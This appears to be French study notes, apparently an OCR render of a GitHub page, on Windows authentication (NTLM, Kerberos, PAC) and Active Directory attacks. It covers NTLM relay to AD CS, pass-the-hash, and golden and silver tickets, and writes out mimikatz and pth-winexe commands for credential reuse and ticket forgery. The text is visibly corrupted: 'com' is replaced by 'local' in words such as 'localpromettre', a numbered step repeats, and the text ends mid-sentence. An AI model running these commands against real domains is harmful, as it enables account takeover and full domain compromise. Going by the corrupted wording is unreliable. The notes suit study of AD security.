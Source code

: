 #### Protocole Windows

- **NTLM (NT LAN Manager)** est un protocole d’authentification propriétaire de Microsoft utilisé avant l’adoption de Kerberos
    - Relay Attack : Un attaquant peut capturer un challenge NTLM et le relayer à un autre service pour obtenir un accès légitime.
        2.	Démarre un serveur SMB relay qui écoute les connexions.
        2.	Le serveur capture une authentification NTLM légitime d’une machine ou d’un utilisateur.
        3.	Le NTLM relay est utilisé pour relayer les identifiants NTLM vers AD CS pour obtenir un certificat.
        4.	Si AD CS est mal configuré (ESC8 ou ESC11), il délivre un certificat.
        5.	L’attaquant utilise ce certificat pour demander un TGT puis un TGS et localpromettre l'AD.
    - Pas de protection contre le “pass-the-hash” : Si un attaquant vole un hash NTLM, il peut directement s’authentifier en l’utilisant.
        - `mimikatz.exe "sekurlsa::pth /user:my-ad-02$ /domain:$DOMAIN /ntlm:aaaaaaaaaaaaaaaaaaaaaaa"`
        - `pth-winexe -U '$DOMAIN/my-ad-02$%aaaaaaaaaaaaaaaaaaaaaaaf' //192.168.1.20 cmd.exe`
- **Kerberos** est un protocole d’authentification réseau basé sur des tickets, permettant une connexion sécurisée sans transmettre de mots de passe en clair.
- **PKINIT** : extension au protocole Kerberos permettant d’authentifier un utilisateur avec un certificat, au lieu d’un mot de passe.
- **MS-DFSNM** : Protocole utilisé par Microsoft pour administrer les configurations DFS
- **DFS** : service de Microsoft Windows qui permet d’organiser et de gérer des partages de fichiers sur plusieurs serveurs tout en offrant une vision unifiée à l’utilisateur

#### Auth

- **TGT** (Ticket-Granting Ticket) est un ticket délivré par le KDC (Key Distribution Center) qui permet à un utilisateur de demander d’autres tickets pour accéder aux services du réseau sans devoir se réauthentifier
- **TGS** (Ticket-Granting Service) est un ticket spécifique à un service qui permet à un utilisateur d’accéder à une ressource précise sans devoir fournir son mot de passe.
- **PAC** (Privileged Attribute Certificate) est une extension des tickets Kerberos utilisée par Windows AD pour stocker des informations sur les privilèges et l’identité d’un utilisateur.
Il est ajouté aux tickets Kerberos TGT (Ticket-Granting Ticket) et TGS (Ticket-Granting Service) afin de permettre aux services et aux systèmes Windows de vérifier les droits de l’utilisateur sans interroger continuellement le contrôleur de domaine (DC).
    - Golden Ticket (Falsification du PAC)
        - Un attaquant ayant accès à la clé de chiffrement de Kerberos (krbtgt) peut forger un PAC avec tous les privilèges.
        - Cela permet de générer un TGT valide pour n’importe quel utilisateur, avec des droits d’administrateur du domaine.
        - Il peut ensuite obtenir un accès illimité à l’Active Directory.
        - `mimikatz.exe "kerberos::golden /domain:corp.local /sid:S-1-5-21-xxxx /krbtgt:HASH /user:Administrator /id:500 /groups:512,518,519,520 /ptt"`
    Silver Ticket (Falsification d’un PAC sur un TGS)
	    - Plutôt que de modifier un TGT, l’attaquant crée un TGS falsifié pour un service spécifique (ex: SMB, HTTP).
	    - Il insère un PAC modifié dans le ticket pour s’attribuer des droits élevés.
        - `mimikatz.exe "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-xxxx /target:server.corp.local /service:cifs /rc4:HASH /ptt"`
- **LM Hash** (Legacy, souvent vide ou fixe)
- **NT Hash** l’empreinte MD4 du mot de passe d’un localpte dans Active Directory avec 
